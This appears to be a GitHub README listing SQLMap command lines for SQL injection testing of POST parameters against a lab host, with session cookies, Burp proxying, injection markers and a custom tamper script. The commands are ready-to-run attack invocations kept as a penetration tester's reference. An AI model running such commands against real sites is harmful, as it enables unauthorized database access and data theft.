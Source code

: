 # SQLMapExamples
A list of sample SQL Map Injection Commands.  SQLMap is a powerful tool for identifying SQL injection vulnerabilities.  However, everytime I use it, I struggle with the parameters.  The following is a list of SQLMap one-liners that I have used in the past and keep here so I can copy and paste and modify the parameters are required.

Reference:
https://github.com/sqlmapproject/sqlmap/wiki/Usage



## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```bash
sqlmap.py -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```bash
sqlmap.py -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)

```bash
sqlmap.py -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap test only 1 parameter "name" and risk 3 level 5 through a proxy connection 
Here is a sql injection on a name parameter for a login form at a set position on the name field. Also there is a custom written tamper (that is included in this repository) that will replace <here> with 3 random characters, so that a unique user is created with each SQLMap injection test.  
You can  install this tamper simply by coping the file to your /usr/share/sqlmap/tamper folder (on Kali at least)
  
```bash
sqlmap.py -u "http://10.10.10.10:80/index.php" --data="name=12345678901*&email=test<here>@test.com&password=test12345" --method="POST" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 -p "name" --dbms="MySQL" --os=Linux --level=5 --risk=3 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --tamper=chargen.py
```
## Create a custom SQLMap tamper file
I ran into a scenario today where I wanted to test a SQL create new user page for a SQL injection.  
Tampers can be easily edited and replaced here:
```
cd/usr/share/sqlmap/tamper
```
```
sudo cp lowercase.py increment.py
```



